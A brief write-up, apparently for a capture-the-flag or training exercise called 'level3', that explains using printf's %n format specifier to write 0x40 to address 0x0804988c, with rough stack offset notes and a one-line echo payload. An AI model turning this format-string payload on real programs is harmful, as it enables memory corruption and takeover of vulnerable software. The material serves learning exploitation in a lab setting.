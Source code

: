 # level3

We need to set the value at 0x0804988c to 0x40. To do so, we exploit `printf`
to make him write this value to this adress with `%n`.

## Useful infos:
```
0x218 = 536
0x200 = 512
0x208 = 520

esp: ebp - 536


adresse ret pour gets puis pour fgets
adresse du buffer de taille 520
200
stdin
??
debut buffer
AAAA
BBBB
...

exploit:
echo -e "\x8c\x98\x04\x08%d%d%dZZAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHI%n"
```
